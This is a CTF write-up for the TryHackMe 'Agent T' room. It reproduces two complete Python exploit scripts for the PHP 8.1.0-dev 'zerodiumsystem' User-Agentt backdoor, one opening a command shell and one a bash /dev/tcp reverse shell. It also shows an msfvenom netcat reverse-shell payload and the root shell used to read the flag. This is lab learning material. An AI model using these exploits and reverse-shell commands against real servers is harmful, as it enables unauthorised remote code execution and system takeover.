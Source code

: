 ```yaml
---
categories:
- Tryhackme
- Freetime
- Fundamentals
layout: post
image:
    path: hacking.png
media_subpath: /assets/posts/2025-03-28-Agent-T-Got-10-Minutes
tags:
- CTF
title: TryHackMe - Got 10 minutes? - Agent T
---
```


## Introduction

Got an email about this challenge. Message contained following: "Got 10 minutes? Try to find out what is wrong with the server" 

## Solution

![](2025-03-28-18-58.png)

Let's start my ParrotOS to dig deeper of this.

````
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 19:10 EET
Nmap scan report for thm.device
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
````

![](2025-03-28-19-59.png)

Really interesting, that there is actually a dashboard to this platform with authenticated "Admin" user. While clicking each link in the site, eventually I ended up to similar site but different user logged in. 

![](2025-03-28-19-21.png)

At first I thought could there be a session token in the storage but there was not.
Any of the links in the website did not respond into any actions, so I did another Nmap scan with parameter "-A" to entirely scan the host. 
````
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
````
The version is now known, so let´s see if there is any vulnerabilities related to that.
Matter of fact, there was a RCE Backdoor for this specific version of PHP. (https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

It´s about changing the user-agent of the request into "User-agentt" and using payload "zerodiumsysytem("*command*")", this will be executed in the backend server.
Here is a python script from this blog to make the exploitation process persistent, this script belongs to author (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) - Flast101 :

````
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
````

As expected, we ended up getting a shell using this exploit.

![](2025-03-28-19-14.png)

I wanted a better shell and started a netcat listener on Parrot's end but the simple reverse shell commands did not work on this host. MSFVenom could solve this problem.
````
┌─[tigris@parrot]─[~/Desktop]
└──╼ $msfvenom -p cmd/unix/reverse_netcat LHOST=10.x.x.x LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 99 bytes
mkfifo /tmp/tnbsawx; nc 10.x.x.x 4444 0</tmp/tnbsawx | /bin/sh >/tmp/tnbsawx 2>&1; rm /tmp/tnbsawx
````
This did not work either. Then i ended up finding this script, which contained a bash-command for the shell. I tried manually exploit the same command but it did not work and it might be that the earlier backdoor-script will format the request incorrectly. This was also made by flash101 - (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) - (https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

````
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
````

We are in.

````
┌─[✗]─[tigris@parrot]─[~/Desktop]
└──╼ $netcat -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.x.x.x] 35484
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html#
root@3f8655e43931:/# ls

ls
bin
boot
dev
etc
flag.txt
home

root@3f8655e43931:/# cat flag.txt
flag{412xxxxxxxxxxxxxxxxxxxxxxxxx}
````



